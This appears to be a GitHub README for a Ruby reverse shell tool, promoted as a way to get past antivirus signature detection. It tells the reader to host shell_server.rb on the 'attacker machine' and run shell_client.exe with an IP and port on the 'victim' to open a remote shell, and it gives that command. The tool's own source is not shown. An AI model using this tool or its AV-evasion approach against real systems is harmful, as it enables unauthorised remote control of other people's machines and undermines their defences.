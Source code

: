 # Ruby Reverse Shell

This reverse shell is useful when other reverse shells get flagged by AV by signature-based detection.

## Requirements:

**[!] Server that receives the reverse shell must have ruby installed, the victim doesn't**

**[!] You might need to recompile the exe, depending on your architecture.**

<br>
These are scripts/exes that can be used as a better reverse shell. It's a basic reverse shell. Same would be possible using netcat. The advantage is that this program has a unique signature while netcat's exe is known.

<br>
<br>

Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```

